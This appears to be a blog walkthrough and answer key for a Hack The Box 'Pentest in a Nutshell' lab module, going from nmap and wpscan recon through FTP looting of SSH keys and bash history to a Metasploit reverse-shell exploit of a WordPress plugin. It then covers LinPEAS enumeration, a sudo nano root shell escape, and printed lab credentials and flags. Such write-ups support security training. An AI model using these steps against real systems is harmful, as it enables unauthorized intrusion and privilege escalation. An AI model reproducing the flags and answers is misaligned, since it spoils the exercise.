# Pentest in a Nutshell

Created by: **4bh1-03** 

> **"If Web Requests are the fuel lines of the internet, then the Penetration Testing Process is the diagnostic manual used to ensure the entire engine is secure from top to bottom.”**
> 

After spending time deep-diving into how the web talks through HTTP, it’s time to zoom out. Security isn't just about finding one bug; it’s about following a rigorous, cyclical methodology to ensure no vulnerability is left behind. In this post, I’m kicking off my walkthrough of the **`HTB Pentest in a Nutshell`** module.


To understand how a professional engagement works, we have to look at the **`Penetration Testing Process`** blueprint:



### Breaking Down the Lifecycle

As the diagram shows, pentesting is rarely a straight line. It’s a dynamic web of discovery and exploitation:

- **Pre-Engagement:** The foundation where the scope and rules of engagement are defined.
- **Information Gathering:** The "recon" phase. This feeds directly into our vulnerability assessment, but as we learn more, we often loop back here to uncover more surface area.
- **Vulnerability Assessment:** Identifying the cracks in the armor.
- **Exploitation & Lateral Movement:** This is where we pivot. Once we gain a foothold (Exploitation), we look to expand our reach across the network (Lateral Movement).
- **Post-Exploitation:** Determining the value of the compromised system and maintaining access for further testing.
- **Proof-of-Concept & Post-Engagement:** Finally, we translate our technical findings into a documented Proof-of-Concept (PoC), leading into the final reporting and cleanup phase.

We’re moving past individual tools to look at how a real-world "Blue Team" or "Red Team" operates under pressure. Let's dive into the module and break down the solutions.

---

# Section 7 : Low Hanging Fruits

To solve the questions under this section, we run an `nmap` scan on the given target network with the following command:

```bash
nmap -sVC -p- 10.10.10.127 -T4 -vv
```

**Command Breakdown**

- **`nmap`**: The executable for Network Mapper, the industry-standard tool for network discovery and security auditing.
- **`sVC`**: This is a combination of two powerful flags:
    - **`sV`**: **Service Version Detection**. It probes open ports to determine what software is running and its specific version number (e.g., Apache 2.4.41 instead of just "HTTP").
    - **`sC`**: **Default Script Scan**. This runs a collection of safe, helpful scripts from the Nmap Scripting Engine (NSE) to detect common vulnerabilities or misconfigurations.
- **`p-`**: This tells Nmap to scan **all 65,535 ports**. By default, Nmap only scans the top 1,000 most common ports; this flag ensures you don't miss "hidden" services running on non-standard ports.
- **`10.10.10.127`**: The target IP address you are auditing.
- **`T4`**: **Timing Template**. This sets the speed of the scan on a scale of 0 to 5. `T4` is "Aggressive"—it’s faster and works well on stable, modern networks like the HackTheBox lab environment.
- **`vv`**: **Double Verbosity**. This tells Nmap to "talk more." It will print open ports to your terminal the moment it finds them, rather than making you wait until the very end of the scan to see the results.

<aside>


### What is `nmap`?

**Nmap** (Network Mapper) is an open-source tool used for network discovery and security auditing. It works by sending specially crafted packets to a target host and analyzing the responses to map out the network landscape.

In the context of the **Penetration Testing Process**, it is a foundational tool for several phases:

- **Information Gathering**: It identifies active hosts on a network and the open ports they are communicating through.
- **Vulnerability Assessment**: By detecting specific service versions (e.g., SSH or HTTP) and using its built-in Scripting Engine (NSE), it helps identify potential entry points for exploitation.
</aside>

Here’s the output of the command run in the HTB terminal:



### **1. How many TCP ports in total are open on the target?**

Count the total number of open **`TCP`** ports displayed after the scan is complete and that is your answer.

**Answer :** `8` 

### 2. **What service version is running on TCP port 80? (Format: service x.y.z)**



**Answer :** `nginx 1.18.0` 

### 3. **What is the commonName that the SSL certificate provides? (Format: example.com)**



**Answer :** `cube-case.htb`

---

# Section 8 : Linux Information Gathering

Let’s first `ftp` to the given target as an anonymous user using the credentials 
(`anonymous:<registered_mail_id>`) and `21` as the port number in the command :

```bash
ftp <target> 21
```



Once you are in the `ftp` session, you can start exploring and executing commands to answer the questions.

### 1. **What is the file name with the ".txt" extension that can be downloaded on the FTP server?**

After we are in the ftp session, we can list all the files including hidden files using the `ls -la` command.



The only file with the “.txt” extension is the `WordPress_Blog_Setup_Update.txt` that can be downloaded on the FTP server.

**Answer :** `WordPress_Blog_Setup_Update.txt` 

### 2. **What is the full name of the development team member?**

Let’s read the contents of the `WordPress_Blog_Setup_Update.txt` to know more about the Team and the Blog Setup Updates on which the team is working. 

We can do this by first downloading the file from the FTP server to our local machine (pwnbox instance), because standard FTP does not support peeking information or executing commands like `cat` or `more` . To download the file, execute the following command on the FTP server:

```bash
get WordPress_Blog_Setup_Update.txt
```

After downloading we can view the content by simply using the `cat` command either by opening a new terminal or by quitting the FTP session.


From the above message we can get to know the following key points:

- It confirms the existence of a temporary FTP server that was set up for internal use during WordPress setup but is exposed
- It mentions "temporary access credentials", suggesting there might be default or weak credentials still in place (anonymous login enabled)
- It confirms the presence of an incomplete WordPress installation, which could mean security configurations are not fully implemented (Sample page)
- The message contains an employee name `John Doe` and indicates he's part of the Development Team
- It reveals internal processes and project status, which could be useful for social engineering attacks

**Answer :** `John Doe` 

### 3. **What is the name of the ".tar.gz" file that has been moved to the "/mnt/backup/" directory?**

Let’s take a look at the `.bash_history` file. The `.bash_history` file is a hidden file in Linux/Unix systems that by default, keeps a record of all commands previously entered by a user in the Bash shell. Each time a user enters a command in their terminal, it gets logged to this file. This historical record can be very valuable from a security perspective as it may contain:

- Commands that reveal sensitive operations or configurations
- Usernames, passwords, or other credentials that were typed directly into the command line
- Information about system structure, file locations, and installed programs
- Evidence of file operations, installations, or system modifications

By default, Bash saves the last 500-1000 commands in this file, though this number can be configured.

First, download it to the local machine (pwnbox instance) using the command:

```bash
get .bash_history
```

View the contents of the file in the local machine using `cat .bash_history` .



We can see that a file named `full_backup.tar.gz` has been moved to `/mnt/backup/` .

**Answer :** `full_backup.tar.gz` 

### 4. **What is the name of the private SSH key file?**

The `.ssh` directory (most of the time) is used to store files related to SSH, such as private keys, configs, and more. From those files, we could identify other machines/targets for remote access, or possibly obtain a private key that could be used gain remote access to the current target. Therefore, let’s use the `cd` command to change directory to `.ssh` and list all files within it.



As you can see, there are two files - `id_rsa` and `id_rsa.pub` . When SSH keys are generated, and the user doesn’t modify them, these names are used by default. The `id_rsa` and `id_rsa.pub` files are a pair of SSH keys used for authentication:

- `id_rsa` is the private key that should be kept secret and never shared
- `id_rsa.pub` is the public key that can be shared with other systems

**Answer :** `id_rsa` 

For the next two questions, we will run a WordPress scan using the command:

```bash
wpscan --url https://10.129.12.10 --disable-tls-checks --enumerate t 
--plugins-detection aggressive/passive --no-banner
```

**Command Breakdown**

- **`wpscan`**: The Ruby-based vulnerability scanner specifically designed to find security flaws in WordPress installations.
- **`-url https://10.129.12.10`**: Specifies the target website. In this case, it is an IP address using the HTTPS protocol.
- **`-disable-tls-checks`**: Tells the tool not to verify the SSL/TLS certificate. This is essential in lab environments like HackTheBox, where servers often use self-signed certificates that would otherwise cause the scan to error out.
- **`-enumerate t`**: This is the "Enumerate" flag. The `t` stands for **popular themes**. It tells WPScan to specifically look for the themes installed on the site to see if they have known vulnerabilities.
- **`-plugins-detection aggressive`**: Unlike passive mode (which just reads the HTML), **aggressive mode** actively brute-forces the server by checking for the existence of thousands of known plugin files and directories. This is much more likely to find "hidden" or poorly configured plugins.
- **`-no-banner`**: A cosmetic flag that hides the large WPScan ASCII art logo at the start of the output, making your terminal cleaner and your blog screenshots easier to crop.

We get the following output in the shell session:

```bash
[+] URL: <https://cube-case.htb/> [10.129.12.10]
[+] Started: Sat Feb 15 15:34:53 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.52 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: <https://10.129.12.10/xmlrpc.php>
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - <http://codex.wordpress.org/XML-RPC_Pingback_API>
 |  - <https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/>
 |  - <https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/>
 |  - <https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/>
 |  - <https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/>

[+] WordPress readme found: <https://10.129.12.10/readme.html>
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: <https://10.129.12.10/wp-cron.php>
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - <https://www.iplocation.net/defend-wordpress-from-ddos>
 |  - <https://github.com/wpscanteam/wpscan/issues/1299>

[+] WordPress version 6.7.2 identified (Latest, released on 2025-02-11).
 | Found By: Rss Generator (Passive Detection)
 |  - <https://10.129.12.10/?feed=rss2>, <generator><https://wordpress.org/?v=6.7.2></generator>
 |  - <https://10.129.12.10/?feed=comments-rss2>, <generator><https://wordpress.org/?v=6.7.2></generator>

[+] WordPress theme in use: twentytwentyfive
 | Location: <https://10.129.12.10/wp-content/themes/twentytwentyfive/>
 | Last Updated: 2025-02-11T00:00:00.000Z
 | Readme: <https://10.129.12.10/wp-content/themes/twentytwentyfive/readme.txt>
 | [!] The version is out of date, the latest version is 1.1
 | Style URL: <https://10.129.12.10/wp-content/themes/twentytwentyfive/style.css?ver=1.0>
 | Style Name: Twenty Twenty-Five
 | Style URI: <https://wordpress.org/themes/twentytwentyfive/>
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: <https://wordpress.org>
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - <https://10.129.12.10/wp-content/themes/twentytwentyfive/style.css?ver=1.0>, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:01:39 <==================> (109115 / 109115) 100.00% Time: 00:01:39
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] hash-form
 | Location: <https://10.129.12.10/wp-content/plugins/hash-form/>
 | Last Updated: 2025-01-29T15:54:00.000Z
 | [!] The version is out of date, the latest version is 1.2.4
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - <https://10.129.12.10/wp-content/plugins/hash-form/readme.txt>
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - <https://10.129.12.10/wp-content/plugins/hash-form/readme.txt>

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at <https://wpscan.com/register>

[+] Finished: Sat Feb 15 15:36:47 2025
[+] Requests Done: 109150
[+] Cached Requests: 13
[+] Data Sent: 29.515 MB
[+] Data Received: 14.722 MB
[+] Memory used: 545.891 MB
[+] Elapsed time: 00:01:54
```

From the information we have retrieved from the scan, we can answer the below questions

### 5. **What is the WordPress version running on the target? (Format: x.y.z)**

**Answer :** `6.7.2` 

### 6. **What is the name of the theme used by WordPress on this target?**

**Answer :** `twentytwentyfive` 

---

# Section 9 : Linux Initial Access

To answer all the questions of this section, we have to gain access to the target. We have got three ways to do it:

1. Levering the WordPress `hash-form` RCE via Metasploit.
2. Using the `id_rsa` private key exfiltrated from FTP.
3. Using the credentials found in `.bash_history`.

We will go with the first method.

Run `msfconsole` :


First search for `wordpress hash form` exploit using `msfconsole` :

```bash
search wordpress hash form
```


We will go with the first exploit module. To use a particular module type `use` followed by the index number:


After the module is in use, look for the options that you have set typing the command `options` :

```bash
[msf](Jobs:0 Agents:0) exploit(multi/http/wp_hash_form_rce) >> options

Module options (exploit/multi/http/wp_hash_form_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks4, socks5, sapni, socks5h, http
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  148.113.54.203   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory

View the full module info with the info, or info -d command.
```

Set the values for `RHOSTS`, `RPORT`, `LHOST` and `SSL` as follows:

```bash
msf6 exploit(...) > set rhosts 10.129.12.10
msf6 exploit(...) > set rport 443
msf6 exploit(...) > set ssl true
msf6 exploit(...) > set lhost <Your_pwnbox_IP>
```

After the options are set, run `exploit` to exploit the vulnerability and gain access:


To confirm you have gained access to the system run `sysinfo` :


We have successfully gained access over the system. Now let’s start answering the questions.

### 1. **After exploiting the WordPress plugin, what is the hostname of the Linux target?**

We can use the `shell` command to tell meterpreter to execute a basic shell , where we can subsequently use system commands.


Now let’s use the `hostname` command to know the hostname of the target:


**Answer :** `ubuntu` 

### 2. **What is the kernel version used by the Linux target? (Format: x.yy.z)**

We can get to know the kernel version of the target from the output of the `sysinfo` command



**Answer :** `5.15.0` 

### 3. **What is the user id (uid) of the user www-data?**

Use the command `id` to know the uid of users and groups as well



**Answer :** `33` 

### 4. **What is the GID of the group "john"?**

We can use the same command as above to know the `groupid` of user `john` 


**Answer :** `1000` 

---

# Section 10 : Linux System Enumeration

To complete this modul, we have to first install `LinPEAS` (Linux Privilege Escalation Awesome Script). We can do this by following the below steps:

**Step 1: Download to Attacking Machine (Pwnbox Instance)**

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```


**Step 2: Transfer to Target (via SCP - Secure copy)**

Using the SSH key we discovered earlier:

```bash
# Syntax: scp -i <key> <source> <user>@<ip>:<destination>
scp -i id_rsa ./linpeas.sh john@10.129.21.200:/home/john
```


**Step 3: Execute on Target**

Log in via SSH and run the script. It is often best to redirect output to a file for easier reading.

```bash
ssh -i id_rsa john@10.129.21.200
# Run with '-a' (all checks) and '-N' (no colors for text file output)
bash linpeas.sh -a -N > linpeas_results.txt
```

**Step 4: Exfiltrate Results for Analysis**

Download the results back to your Pwnbox to use `grep` or other tools to parse the data.

```bash
scp -i id_rsa john@10.129.21.200:/home/john/linpeas_results.txt ./linpeas_results.txt
```

Now let’s answer the questions by inspecting the `linpeas_results.txt` file.

### 1. **What is the name of the CVE-2022-0847 vulnerability?**

When we scroll down we will see the results of an another tool called `linux-exploit-suggester`, which is used in the `LinPEAS` script. This tools suggests that the current system might be vulnerable to specific and known vulnerabilities and provides some details, tags, and download urls where we can download the exploits from.

```bash
╔══════════╣ Executing Linux Exploit Suggester
╚ <https://github.com/mzet-/linux-exploit-suggester>
[+] [CVE-2022-0847] DirtyPipe

   Details: <https://dirtypipe.cm4all.com/>
   Exposure: less probable
   Tags: ubuntu=(20.04|21.04),debian=11
   Download URL: <https://haxx.in/files/dirtypipez.c>
```

**Answer :** `DirtyPipe`

### 2. **What is the Codename of the Linux distribution?**

You can find the codename of the distribution under the Operating System sub-section of the System Information Section.

```bash
                              ╔════════════════════╗
══════════════════════════════╣ System Information ╠══════════════════════════════
                              ╚════════════════════╝
╔══════════╣ Operative system
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#kernel-exploits
Linux version 5.15.0-135-generic (buildd@lcy02-amd64-070) (gcc (Ubuntu 11.4.0-1ubuntu1~22.04) 11.4.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #146-Ubuntu SMP Sat Feb 15 17:06:22 UTC 2025
Distributor ID:	Ubuntu
Description:	Ubuntu 22.04.4 LTS
Release:	22.04
Codename:	jammy
```

**Answer :** `jammy` 

### 3. **Which sudo version is installed on the Linux target? (Format: x.y.z)**

Scroll down under the System Information Section to find the Sudo Version.

```bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version
Sudo version 1.9.9
```

**Answer :** `1.9.9` 

### 4. **What is the release no. of Ubuntu running on the target? (Format: xx.yy)**

You can find this under the Operating System sub-section of the System Information Section.



**Answer :** `22.04`

---

# Section 11 : **Linux Vulnerability Assessment**

The questions under this section can be answered using the same `linpeas_results.txt` file.

### 1. **What is the full path of the "passwd" file?**

```bash
cat linpeas_result.txt | grep "passwd"
```


**Answer :** `/etc/passwd` 

### 2. **What is the status of "User namespace" protection?**

```bash
cat linpeas_result.txt | grep "User namespace"
```


**Answer :** `enabled` 

### 3. **What is the status of ASLR protection?**

```bash
cat linpeas_result.txt | grep "ASLR"
```


**Answer :** `enabled` 

### 4. **What is the full path of the container tool present on the target system?**

```bash
                                   ╔═══════════╗
═══════════════════════════════════╣ Container ╠═══════════════════════════════════
                                   ╚═══════════╝
╔══════════╣ Container related tools present (if any):
/snap/bin/lxc
```

**Answer :** `/snap/bin/lxc`

---

# Section 12 : Linux Privilege Escalation

### 1. **How many functions can be exploited with the "nano" binary based on GTFObins?**

The “[Get The F*** Out Bins](https://gtfobins.github.io/)” (`GTFObins`) project documents several techniques to help security professionals understand and mitigate privilege escalation risks. It provides a list of binaries that can be exploited to bypass certain restrictions within specific scenarios/cases. Search for `nano` .


**Answer :** `3` 

### 2. **What is the UID of the user root?**

To answer this question, we have to first log into a shell as a `root` user. We can do this by opening the `nano` text editor as the user `root` , since the user `john` can run `/user/bin/nano` as `root` without a password(`NOPASSWD`) and spawn a shell in `nano` itself.

The sequence "^R^X" (`[CTRL+R]` `[CTRL+X]`) in `nano` opens a command execution prompt, which is then used to `reset` the terminal and spawn a `/bin/bash` shell, in this case, with the privileges of the user `root` used for this `nano` session. Command to execute:

```bash
reset; /bin/bash 1>&0 2>&0
```



**Answer :** `0` 

---

# Section 13 : Linux Pillaging

To answer the questions under this section, we have to first log into a shell as the `root` user, which is done below using the command `sudo su` and the password which we found in the previous sections from the `.bash_history` file which is `SuperSecurePass123`:


### 1. **Submit the contents of the "/root/flag.txt" as the answer.**

```bash
cat /root/flag.txt
```


**Answer :** `HTB{kXjCFCRfXDHN3EcJ3kAq2Wu4ZWdJ3jeQpnJWMLwGBi}`

### 2. **What is the CPU architecture on the target system?**

This can be found from the `linpeas_result.txt` file itself under the `System Information` section.



**Answer :** `x86_64` 

### 3. **Which version of vsftpd was installed on the target system? (Format: x.y.z)**

The version of `vsftpd` can be found from the output of the [`linpill.sh`](http://linpill.sh) script. (Download the `linpill.sh` script from the resources section of the module and make sure it has `execute` permission on it.)

```bash
bash linpill.sh | grep "vsftpd"
```



**Answer :** `3.0.5` 

### 4. **How many SUID/GUID binaries have been found with the linpill.sh script?**

The answer to this question can be found from the `Summary of Key Findings` section of the `linpill.sh` ’s output.

